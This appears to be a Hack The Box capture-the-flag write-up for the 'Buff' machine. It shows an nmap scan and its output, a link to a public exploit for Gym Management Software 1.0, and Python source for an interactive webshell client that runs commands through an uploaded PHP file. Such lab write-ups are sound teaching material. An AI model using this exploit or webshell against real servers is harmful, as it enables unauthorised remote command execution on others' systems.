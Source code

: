 # Buff

## Reconnaissance / Enumeration 

Using NMAP Port full scan
```bash
┌──(justakazh㉿youknowitsme)-[/htb/easy/buff/recon]
└─$ sudo nmap -sS -p- -T5 10.10.10.198 -oN allport
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-16 05:36 EDT
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 60.72% done; ETC: 05:38 (0:00:54 remaining)
Nmap scan report for 10.10.10.198
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 111.03 seconds

```

## Initial Access

After recon phases we know that 8080 port are open, and notice in the url `http://10.10.10.198:8080/contact.php` this website using `Gym Management Software 1.0`.
we can use this exploit for getting initial access
https://www.exploit-db.com/raw/48506

```python

import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

```